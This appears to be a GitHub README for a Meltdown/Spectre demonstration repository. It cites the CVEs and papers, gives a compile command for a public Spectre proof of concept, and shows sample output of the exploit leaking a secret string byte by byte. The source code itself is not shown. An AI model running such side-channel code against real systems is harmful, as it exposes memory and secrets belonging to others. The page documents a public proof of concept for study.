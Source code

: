 # meltdown_specre

# Meltdown
CVE-2017-5754 is the official reference to Meltdown. 
https://meltdownattack.com/meltdown.pdf

# Specre
CVE-2017-5753 and CVE-2017-5715 are the official references to Spectre.
https://spectreattack.com/spectre.pdf

To Compile on ubuntu 16.04

    # gcc spectre.c -o spectre
 
Thank you to https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6 for this code.  I modified it to work on ubuntu-xenial-16.04-amd64-server-20170721 (ami-cd0f5cb6)
    
# Sample Output

    root@brakerubuntu:/tmp/src]# ./spectre
    Reading 40 bytes:
    Reading at malicious_x = 0xffffffffffdfebb8... Success: 0x54=’T’ score=2
    Reading at malicious_x = 0xffffffffffdfebb9... Success: 0x68=’h’ score=2
    Reading at malicious_x = 0xffffffffffdfebba... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebbb... Success: 0x20=’ ’ score=7 (second best: 0xDE score=1)
    Reading at malicious_x = 0xffffffffffdfebbc... Success: 0x4D=’M’ score=2
    Reading at malicious_x = 0xffffffffffdfebbd... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebbe... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebbf... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebc0... Success: 0x63=’c’ score=2
    Reading at malicious_x = 0xffffffffffdfebc1... Success: 0x20=’ ’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc2... Success: 0x57=’W’ score=2
    Reading at malicious_x = 0xffffffffffdfebc3... Success: 0x6F=’o’ score=2
    Reading at malicious_x = 0xffffffffffdfebc4... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebc5... Success: 0x64=’d’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc6... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebc7... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebc8... Success: 0x61=’a’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc9... Success: 0x72=’r’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebca... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebcb... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebcc... Success: 0x53=’S’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcd... Success: 0x71=’q’ score=2
    Reading at malicious_x = 0xffffffffffdfebce... Success: 0x75=’u’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcf... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebd0... Success: 0x61=’a’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd1... Success: 0x6D=’m’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd2... Success: 0x69=’i’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd3... Success: 0x73=’s’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd4... Success: 0x68=’h’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd5... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebd6... Success: 0x4F=’O’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd7... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd8... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd9... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebda... Success: 0x66=’f’ score=2
    Reading at malicious_x = 0xffffffffffdfebdb... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebdc... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebdd... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebde... Success: 0x65=’e’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebdf... Success: 0x2E=’.’ score=2
